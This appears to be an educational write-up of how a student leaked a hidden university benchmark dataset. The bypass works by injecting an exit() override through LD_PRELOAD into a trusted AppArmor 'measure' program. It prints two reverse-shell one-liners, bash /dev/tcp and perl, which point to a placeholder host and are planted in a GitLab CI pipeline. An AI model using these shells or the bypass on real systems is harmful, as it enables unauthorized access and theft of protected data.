 # Abstract

**Extracting secret data protected by an AppArmor profile by injecting a custom library function with `LD_PRELOAD`.**


This is a TUM internal exploit, but I'm still publishing this writeup for educational purposes, as I consider both the security set-up and the exploitation strategy interesting.

<img src="img/AppArmor.png" alt="AppArmor" width="200"/>

[AppArmor](https://www.apparmor.net/) is a Linux kernel security module that offers *per-program* security policies.
Programs are identified by **path**. Authorized programs can switch between different security policies at runtime.


## Background
The set-up can roughly be explained as follows:

The Students have to write a highly optimized C++ program that can parse multiple gigabytes of data in just a few milliseconds (by using SIMD/AVX instructions).
They push their source code to a GitLab instance, which then builds and tests their solution against a hidden dataset, so that the students can not cheat by hardcoding the answer.
The only piece of information they get back is whether their submission was a success or failure.
If their submission is fast enough, they get a grade bonus for the exam.

If one were able to leak the test dataset, one could either hard-code an answer, or optimize ones submission against the test dataset, claiming pole position on the leaderboard.

As the students are able to submit arbitrary code, a special solution was devised to keep them from leaking the hidden dataset:
1. The student program is compiled and uploaded to the test server. In this case the test server is an actual physical machine, so that benchmark results are reported accurately. It offers access to an *unprivileged* user account, that is not allowed to read the test dataset, but can otherwise freely use the system.

2. A special, *trusted* `measure` program is accessible to the unprivileged user. The `measure` program can only be read or executed, but not modified.
It performs the following three crucial functions:
    1. It uses AppArmor to [change the active security profile](https://man.archlinux.org/man/aa_change_hat.2.en). The new security profile is allowed to access the test dataset, but not allowed to do any kind of I/O. Among other things, it blocks file system access, network operations and the stdout file descriptor.
    2. It logs the current system time, executes the untrusted user program, redirects its output into a buffer and logs the current time again, once the user program returns or times out.
    3. It swaps the security profile back to the unprivileged profile, compares the logged buffer content with the expected answer, and, if correct, uploads the time required by the user program to generate the answer to the leaderboard.
    It also prints feedback (the measured time required and whether the answer was correct) to stdout.

    
## Exploitation

### 1. Backdooring the GitLab CI/CD pipeline

This is not strictly necessary (and not exactly difficult since we control the GitLab `.gitlab-ci.yml`), but a reverse shell makes it much easier to inspect the system and debug our exploitation efforts on the spot, instead of having to wait for the entire CI/CD pipeline to run through after every change.

A quick reverse shell should be in the repertoire of every hacker.
My personal favorite being a simple:
```bash
sh -i >& /dev/tcp/target_address/target_port 0>&1
```
or alternatively with perl:
```perl
perl -e 'use Socket;$i="target_address";$p=target_port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
in case the first one is making problems.
You'll be surprised by how many systems and even minimalist dev-containers ship with perl installed.

In any case, inserting this into the deployment script leaves us with a simple, but functional reverse shell.

### 2. Inspecting the target program
Let us take a quick look at the Ghidra disassembler output of relevant section of the `measure` program:
![measure](img/measure.png)
Line `92` swaps into the privileged profile. Line `129` swaps out of it.\
Line `122` executes the untrusted program.

The problem is that we can not simply call [`aa_change_hat()`](https://man.archlinux.org/man/aa_change_hat.2.en) ourselves.
The [AppArmor](https://www.apparmor.net/) kernel security module checks the binary origin path of the process executing the respective syscall.
If we were to call this function in our untrusted program (or any other program placed on the target machine), the security profile change would be *denied*. Only a process with the origin binary `/data/delivery/measure` (the path of the trusted measure program) may perform the hat change.

### 3. Bypassing AppArmor protection

How can we *become* the `measure` program?\
We can not overwrite or modify its binary and we can not access its memory at runtime.

We *do* control the *context* in which it is launched though.
Specifically, the **environmental variables** present at its launch.

An environmental variable with useful effects for our cause is the `LD_PRELOAD` variable.
It instructs the [dynamic linker](https://linux.die.net/man/8/ld-linux) to link a dynamic library from a specified path into any program that is launched while `LD_PRELOAD` is in context.

The hereby linked library **takes precedent** over any dynamic library that would *usually* be linked into the target program.

In our case, this allows us to supply the `measure` program with a custom (and very excellent) implementation of the `libc` [`exit()`](https://www.man7.org/linux/man-pages/man3/exit.3.html) function:
![solve](img/solve.png)

Instead of exiting the program as planned, this calls the `aa_change_hat()` function.\
This works, because we are now part of the trusted `measure` process context, and therefore executing from the same source binary path.

After changing security profile, we are allowed to read the content of the secret `/opt/tpch/sf1/customer1.tbl` dataset.
As we are not allowed to print while in this profile, we have to save its content to an internal buffer.
We then swap the back the security profile and print to `stderr`, successfully leaking the secret dataset.

